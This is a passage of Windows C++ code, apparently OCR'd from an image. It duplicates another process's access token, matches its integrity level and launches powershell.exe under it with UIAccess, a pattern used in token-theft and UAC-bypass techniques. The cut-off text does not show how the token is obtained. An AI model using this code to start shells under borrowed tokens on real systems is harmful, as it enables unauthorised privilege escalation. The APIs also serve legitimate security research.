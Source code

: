```c
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE hNewToken = NULL;
    if (!DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, nullptr, SecurityImpersonation, TokenPrimary, &hNewToken)) {
        std::cerr << "Failed to duplicate token: " << GetLastError() << std::endl;
        CloseHandle(hCurrentProcessToken);
        CloseHandle(hToken);
        CloseHandle(hProcess);
        return 1;
    }

    // Set the integrity level to match the current process
    if (!SetTokenIntegrityLevel(hNewToken, hCurrentProcessToken)) {
        std::cerr << "Failed to set integrity level: " << GetLastError() << std::endl;
        CloseHandle(hNewToken);
        CloseHandle(hCurrentProcessToken);
        CloseHandle(hToken);
        CloseHandle(hProcess);
        return 1;
    }

    // Prepare to create a new process with UIAccess
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_SHOW;

    WCHAR commandLine[] = L"powershell.exe";
    // Create the process with UIAccess
    if (!CreateProcessAsUser(hNewToken,
        nullptr,
        commandLine, // Replace with your desired process
        nullptr,
        nullptr,
        FALSE,
        CREATE_NEW_CONSOLE | CREATE_UNICODE_ENVIRONMENT,
        nullptr,
        nullptr,
        &si,
        &pi)) 
    {
        std::cerr << "Failed to create process: " << GetLastError() << std::endl;
        CloseHandle(hNewToken);
        CloseHandle(hCurrentProcessToken);
        CloseHandle(hToken);
        CloseHandle(hProcess);
        return 1;
    }

    std::cout << "Process created with PID: " << pi.dwProcessId << std::endl;

    // Clean up
    CloseHandle(hNewToken);
    CloseHandle(hCurrentProcessToken);
    CloseHandle(hToken);
    CloseHandle(hProcess);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

```